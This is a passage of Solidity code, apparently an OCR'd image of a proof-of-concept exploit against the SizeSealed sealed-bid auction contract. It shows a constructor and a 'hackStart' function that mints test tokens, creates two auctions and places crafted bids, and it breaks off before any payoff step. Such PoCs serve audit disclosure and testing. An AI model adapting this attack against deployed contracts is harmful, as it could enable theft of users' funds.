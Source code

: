         constructor() {
            sizeSealed = new SizeSealed();
            token1 = new MintableERC20();
            token2 = new MintableERC20();
            externalBidder = new ExternalBidder();
        }
    
        // First transaction
        function hackStart() external returns (uint256) {
            require(hackStartTimestamp == 0);
            hackStartTimestamp = block.timestamp;
    
            {
                token1.mint(address(this), 123);
                token1.approve(address(sizeSealed), 123);
                firstAuctionId = createAuction(token1, token2, 123);
                require(firstAuctionId == 1);
    
                uint256 quoteAmount = 1;
                uint256 baseAmount = 1;
                token2.mint(address(this), quoteAmount);
                token2.transfer(address(externalBidder), quoteAmount);
                uint256 bidId = externalBidder.createBid(
                    token2,
                    sizeSealed,
                    firstAuctionId,
                    uint128(quoteAmount),
                    privateKey,
                    bytes32(baseAmount << 128)
                );
                require(bidId == 0);
            }
    
            {
                token1.mint(address(this), 321);
                token1.approve(address(sizeSealed), 321);
                secondAuctionId = createAuction(token1, token2, 321);
                require(secondAuctionId == 2);
    
                uint256 quoteAmount = 1;
                uint256 baseAmount = 0;
                token2.mint(address(this), quoteAmount);
                token2.transfer(address(externalBidder), quoteAmount);
                uint256 bidId = externalBidder.createBid(
                    token2,
                    sizeSealed,
                    secondAuctionId,
                    uint128(quoteAmount),
                    privateKey,
                    bytes32(baseAmount << 128)
                );
                require(bidId == 0);
            }
    